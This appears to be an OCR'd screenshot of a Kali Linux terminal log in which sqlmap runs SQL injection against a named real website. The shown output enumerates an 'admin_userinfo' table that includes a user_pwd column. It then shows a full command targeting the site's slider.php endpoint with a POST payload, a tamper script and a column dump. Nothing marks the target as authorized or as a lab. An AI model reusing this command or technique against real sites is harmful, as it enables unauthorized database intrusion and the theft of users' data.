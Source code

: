 [18:57:02] [ERROR] unable to retrieve the number of columns for table 'admin_userinfo' in database 'qaisare_com'
[18:57:02] [WARNING] unable to retrieve column names for table 'admin_userinfo' in database 'qaisare_com'
Database: qaisare_com
Table: admin_userinfo
[13 columns]
+----------------------+---------+
| Column               | Type    |
+----------------------+---------+
| anelli               | numeric |
| bst_time             | numeric |
| can_codice           | numeric |
| channel              | numeric |
| fre_disciplina       | numeric |
| keyword              | numeric |
| mod_freeway_services | numeric |
| page_name            | numeric |
| pff_id               | numeric |
| postcount            | numeric |
| sitepref_name        | numeric |
| student_number       | numeric |
| user_pwd             | numeric |
+----------------------+---------+

[18:57:02] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 18:57:02

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C student_number --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
